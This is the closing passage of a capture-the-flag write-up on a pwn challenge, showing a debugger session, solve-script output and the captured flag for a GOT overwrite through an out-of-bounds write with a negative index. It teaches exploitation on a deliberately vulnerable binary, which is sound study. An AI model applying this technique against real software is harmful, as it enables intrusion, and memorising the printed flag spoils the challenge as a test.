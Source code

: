 ```shell
gef➤  r
[...]
index: -14
value: 4198870

Breakpoint 1, 0x000000000040133d in main ()
[...]
gef➤  x/gx 0x404028
0x404028 <exit@got.plt>:	0x00000000004011d6
gef➤  c
Continuing.
slot[0] = 0
[...]
/bin/cat: /flag.txt: No such file or directory
```

Nice! It worked!

Armed with the above information, we can write a Python solve script to get the flag on the remote instance.

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/inbound/inbound)-[2024.11.04|13:11:45(HKT)]
└> python3 solve.py
[...]
[+] exit@got address: 0x404028
[+] slot symbol address: 0x404060
[+] win symbol address: 0x4011d6
[+] Offset: -14
[...]
Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}
```

- **Flag: `Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}`**

## Conclusion

What we've learned:

1. Hijack GOT via out-of-bounds write
